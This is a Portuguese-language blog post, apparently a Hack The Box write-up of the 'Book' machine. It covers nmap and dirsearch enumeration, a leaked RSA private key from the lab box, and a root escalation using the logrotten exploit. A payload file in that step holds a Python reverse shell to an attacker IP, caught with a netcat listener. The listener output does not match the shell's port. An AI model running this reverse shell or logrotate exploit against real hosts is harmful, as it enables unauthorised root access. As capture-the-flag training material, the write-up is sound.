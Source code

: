```yaml
---
title: "Book"
date: 2020-10-19T14:29:02-03:00
draft: false
---
```


![HTB](/book-01.png)

```bash
Nmap scan report for 10.10.10.176
Host is up (0.43s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Abri o IP via web e fiz o meu cadastro

![HTB](/book-02.png)

Da direto para um  home.php

http://10.10.10.176/home.php

vou passar o dirsearch nele

```bash
[13:51:08] 301 -  312B  - /admin  ->  http://10.10.10.176/admin/
[13:51:12] 200 -    6KB - /admin/
[13:51:13] 200 -    6KB - /admin/?/login
[13:51:13] 403 -  277B  - /admin/.htaccess
[13:51:14] 302 -    0B  - /admin/home.php  ->  index.php
[13:51:14] 200 -    6KB - /admin/index.php
[13:51:35] 301 -  311B  - /docs  ->  http://10.10.10.176/docs/
[13:51:35] 403 -  277B  - /docs/
[13:51:42] 302 -    0B  - /home.php  ->  index.php
[13:51:44] 301 -  313B  - /images  ->  http://10.10.10.176/images/
[13:51:45] 200 -    7KB - /index.php
[13:51:45] 200 -    7KB - /index.php/login/
[13:52:07] 403 -  277B  - /server-status
[13:52:07] 403 -  277B  - /server-status/
[13:52:07] 302 -    0B  - /settings.php  ->  index.php
```

Ver porta 80, e uma página de login e registro, para entrar no site para ver acho até normal, porém existem três pontos que vale a pena notar:


- A interface contato indica que existe uma conta de administrador admin@book.htb

- A interface visualizar perfil indica que a permissão atual da conta é Usuário

- A interface coleções tem uma função de upload

Primeiro vou tentar registrar uma conta com admin@book.htb e ver se o Burp intercepta alguma coisa.

![HTB](/book-03.png)

![HTB](/book-04.png)

![HTB](/book-05.png)

![HTB](/book-06.png)

```bash
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJ
G8m6UNZyRGj77eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0
WxtCK0VlQUwxZ6953D16uxlRH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0
ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd/j3xWXHgpaJciHKxeNlr8x6NgbPv4s
7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hLW1UGx/13fh20cZXA6PK
75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh7hihAbIi7
3mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtgToFwxsD+
McKIrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3iuQRwzUI
tIGcAaz3dTODgDO04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9ERdiuX6WJ
jhPHFI7usIxmgX8Q2/nx3LSUNeZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX50/owz
7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lcPzvVGOEGQzkuu4ljFkYz6sZ8GMx6
GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmTmk3A7jOwke0o8/4FL
E2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPlSNbc8/
ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+
SRM/Abh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7l
skGl3dh4M/2Tgl/gYPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+V
o5GVjWTOlfEj74k8hC6GjzWHna0pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7m
Hc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl/FOW2AFbkzoNbHT9GpTj5ZfacC
hBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k8J+fVHJl4IjT80u
Pb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27pOAMYkh
sMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQHc2XoY8YCf
tdBBP0Uv2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndVc/zLi
5bBLnzECgYEAlLiYGzP92qdmlKLLWS7nPM0YzhbN9q0qC3ztk/+1v8pjj162pnlW
y1K/LbqIV3C01ruxVBOV7ivUYrRkxR/u5QbS3WxOnK0FYjlS7UUAc4r0zMfWT9TN
nkeaf9obYKsrORVuKKVNFzrWeXcVx+oG3NisSABIprhDfKUSbHzLIR4=
-----END RSA PRIVATE KEY-----
```

pip install pdfminer.six

![HTB](/book-07.png)

```bash
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Jul  3 21:38:42 UTC 2020

  System load:  0.02               Processes:            143
  Usage of /:   26.6% of 19.56GB   Users logged in:      0
  Memory usage: 23%                IP address for ens33: 10.10.10.176
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

114 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Jan 29 13:03:06 2020 from 10.10.14.3
reader@book:~$ 
```

Para pegar o root


```bash
reader@book:~$ cd backups/
reader@book:~/backups$ ls -la
total 12
drwxr-xr-x 2 reader reader 4096 Jan 29 13:05 .
drwxr-xr-x 7 reader reader 4096 Jan 29 13:05 ..
-rw-r--r-- 1 reader reader    0 Jan 29 13:05 access.log
-rw-r--r-- 1 reader reader   91 Jan 29 13:05 access.log.1
reader@book:~/backups$ cat access.log.1 
192.168.0.104 - - [29/Jun/2019:14:39:55 +0000] "GET /robbie03 HTTP/1.1" 404 446 "-" "curl"
```

https://github.com/whotwagner/logrotten

dar um git clone no repositorio do  logrotten
e criar um arquivo dentro da maquina  exemplo:

- payloadfile


com o shell reverso

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

compila o arquivo 
```bash
reader@book:~ gcc -o logrotten logrotten.c
```
Agora só rodar com comando abaixo que é explicado no git do logrotten

```bash
reader@book:~ ./logrotten -p ./payloadfile /home/reader/backups/access.log
Waiting for rotating backups/access.log...
```

Em outro terminal deixe o netcat escutando na porta que vc colocou no shell reverso

```bash
$nc -nlvp 4444
listening on [any] 1234 ...
connect to [10.10.15.152] from (UNKNOWN) [10.10.10.176] 50008
```

Quando terminar de rodar o script do logrotten
ele vai conectar na janela do nlvp
ficando dessa forma:

```bash
#
```
Basta daar um cat agora
# cat /root/root.txt

